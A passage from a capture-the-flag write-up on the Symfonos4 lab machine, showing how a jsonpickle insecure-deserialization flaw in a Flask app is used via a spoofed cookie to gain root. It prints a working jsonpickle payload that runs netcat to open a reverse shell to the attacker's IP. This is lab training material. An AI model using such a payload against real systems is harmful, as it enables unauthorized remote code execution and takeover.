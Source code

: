We can see that username is base64 encoded, decoding it gives us   

<img src="https://noman-aziz.github.io/ctf-writeups/resources/2021/symfonos4/23.png" width="800">

This tells us that there is a python flask server running with the user “Poseidon”. We will now try to find the `app.py` to look at the source code.  

<img src="https://noman-aziz.github.io/ctf-writeups/resources/2021/symfonos4/24.png" width="800">

The app is present in the `/opt/code` directory. After looking at the source code, we can see that it is importing some libraries and most importantly in our case `jsonpickle`

<img src="https://noman-aziz.github.io/ctf-writeups/resources/2021/symfonos4/25.png" width="800">

A simple `searchsploit jsonpickle` tells us about an **insecure deserialization** RCE vulnerability

<img src="https://noman-aziz.github.io/ctf-writeups/resources/2021/symfonos4/26.png" width="800">

We can give custom commands to the cookie that was being set earlier and have ourselves an RCE on the machine. A simple google search on jsonpickle exploit gives us the following shell code which is just using python os module to execute netcat command with uid 0 which is of root.   

```
{"py/object": "__main__.Shell", "py/reduce": [{"py/function": "os.system"}, ["/usr/bin/nc -e /bin/bash 192.168.18.25 6666"], 0, 0, 0]}
```

After base64 encoding it,

<img src="https://noman-aziz.github.io/ctf-writeups/resources/2021/symfonos4/27.png" width="800">

Now, we will again send a request to the server using `curl` using our spoofed cookie and start a netcat listener on our machine.

<img src="https://noman-aziz.github.io/ctf-writeups/resources/2021/symfonos4/28.png" width="800">

We have successfully gotten a reverse shell on the target machine with root user

<img src="https://noman-aziz.github.io/ctf-writeups/resources/2021/symfonos4/29.png" width="800">

### Capturing the Flag

<img src="https://noman-aziz.github.io/ctf-writeups/resources/2021/symfonos4/30.png" width="800">

